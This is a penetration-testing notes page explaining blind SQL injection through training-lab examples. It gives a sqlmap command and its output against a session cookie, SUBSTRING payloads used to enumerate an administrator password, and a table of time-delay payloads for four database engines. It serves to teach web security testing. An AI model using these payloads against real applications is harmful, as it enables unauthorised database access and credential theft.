

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Blind


**Blind SQLi** is a type of SQLi where an attacker can execute SQL commands on a database **without seeing the direct results**. Instead, the attacker infers the results indirectly, often by observing changes in the web application's behavior or responses.


## Boolean-based


**Blind boolean-based SQLi** is a technique where an attacker sends SQL queries that **return `true` or `false`**. The attacker observes the application's response to determine if the query was true or false, allowing them to infer information about the database without seeing the data directly.


### Headers

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time the application generates one `POST` and one `GET` request. The former includes two parameters (`username` and `password`), but they don't appear to be vulnerable to SQLi. The latter does not contain any parameter, but we can search for other injection points. More specifically, the `Cookie` header includes the `session` parameter and its value is processed by the back-end, thus, it can potentially be an SQLi candidate (Figure 1).

<figure><figcaption><p>Figure 1: Inspecting potential SQLi positions.</p></figcaption></figure>

Passing the request to [`sqlmap`](../../../../tools/web/sqlmap.md), we find out that the `session` cookie is injectable.


```bash
$ sqlmap -r get_request.txt --batch --dbms=MySQL --level 5 --technique=B --dbms=MySQL
<SNIP>

sqlmap identified the following injection point(s) with a total of 33 HTTP(s) requests:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9499=9499-- UfuX
---
[12:37:03] [INFO] testing MySQL
[12:37:03] [INFO] confirming MySQL
[12:37:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.4.33, Apache 2.4.54
back-end DBMS: MySQL >= 8.0.0
```


We can manually confirm `sqlmap`'s finding by checking the responses `Content-Length` (Figure 2).

<figure><figcaption><p>Figure 2: Validating <code>sqlmap</code>'s findings.</p></figcaption></figure>

We can then continue the testing process as we did in the [In Band](in-band.md#basic-workflow) section.

### Conditional

> _The example below is based on PostSwigger's_ [_Blind SQL injection with conditional responses_](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) _lab._


```sql
SELECT database(); -- test
SELECT substring(database(),1,1); -- t (position,length)
SELECT substring(database(),1,3); -- tes (position,length)
SELECT * FROM products WHERE name = 'Laptop' AND substring((SELECT password FROM users WHERE username='Jessamy'),1,1)>'m';
```


Burp's Active Scan identifies a potential SQLi flaw (Figure 4).

<figure><figcaption><p>Figure 4: Identifying &#x26; validating an SQLi vulnerability.</p></figcaption></figure>

We can send the two responses to Comparer and check what is the differs between them (Figure 5).

<figure><figcaption><p>Figure 5: Using Burp's Comparer to see what differs between the two responses.</p></figcaption></figure>

Now that we know that if our injected statement is `TRUE` we will get a `Welcome back!` message, we can use the `SUBSTRING` function and start enumerating the `administrator`'s password. We can do that efficiently by performing a Cluster bomb attack with Intruder (Figure 6).


```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```


<figure><figcaption><p>Figure 6: Performing a Cluster bomb attack with Burp's Intruder.</p></figcaption></figure>

All we need to do now is to filter out the irrevelant responses and sort them by `Payload 1` (Figure 7).

<figure><figcaption><p>Figure 7: Enumerting the <code>administrator</code>'s password.</p></figcaption></figure>


For performing the above task with a custom Python-based script, check the [Copy As Python-Requests](https://portswigger.net/bappstore/b324647b6efa4b6a8f346389730df160) Burp's extension.


## Time-based


**Blind time-based SQLi** is a technique where an attacker sends SQL queries that **cause a delay in the database response if the query is `true`**. By measuring the time it takes for the application to respond, the attacker can infer information about the database.


> _The example below is based on PostSwigger's_ [_Blind SQL injection with time delays_](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays) _lab._

We can start by testing the time-based payloads found on [PortSwigger's SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). using string concatenation (Figure 8).

<table><thead><tr><th width="184">Database</th><th>Payload</th></tr></thead><tbody><tr><td>Oracle</td><td><code>dbms_pipe.receive_message(('a'),10)</code></td></tr><tr><td>Microsoft</td><td><code>WAITFOR DELAY '0:0:10'</code></td></tr><tr><td>PostgreSQL</td><td><code>SELECT pg_sleep(10)</code></td></tr><tr><td>MySQL</td><td><code>SELECT SLEEP(10)</code></td></tr></tbody></table>

```sql
'+||pg_sleep(10)-- -;
```

<figure><figcaption><p>Figure 8: Successfully injecting a time-based payload.</p></figcaption></figure>
